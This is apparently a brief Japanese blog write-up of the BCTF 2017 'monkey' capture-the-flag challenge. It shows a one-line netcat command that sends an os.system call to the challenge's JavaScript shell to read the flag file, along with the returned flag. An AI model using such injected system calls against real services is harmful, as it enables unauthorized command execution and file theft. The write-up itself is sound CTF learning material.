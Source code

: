 ```yaml
---
layout: post
alias: "/blog/2017/04/22/bctf-2017-monkey/"
date: "2017-04-22T01:14:11+09:00"
tags: [ "ctf", "writeup", "bctf", "pwn", "javascript" ]
---
```


# BCTF 2017: monkey

## solution

諸々のファイルが渡されるが、ぐぐると`os.system`があると分かるので終わり。

```
$ echo 'os.system("cat /home/js/flag")' | nc 202.112.51.248 2333
js> os.system("cat /home/js/flag")
bctf{319c1b47f786c7b99a757da74fd38408}
js> 0
```
